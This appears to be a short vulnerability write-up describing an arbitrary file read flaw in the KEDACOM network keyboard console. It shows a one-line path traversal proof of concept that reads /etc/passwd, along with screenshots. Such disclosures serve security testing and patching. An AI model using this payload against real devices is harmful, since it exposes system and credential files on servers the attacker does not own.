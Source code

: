 #Koda Network Keyboard Console Arbitrary File Reading Vulnerability

## Vulnerability Description

There is a vulnerability to read any file on the KEDACOM network keyboard console. This vulnerability can read any information on the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">KEDACOM Network Keyboard Console</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629778495373-5538cf42-58cb-4c98-94f4-3283820a9257.png)

Verify POC

```python
/../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791-20220313112704543.png)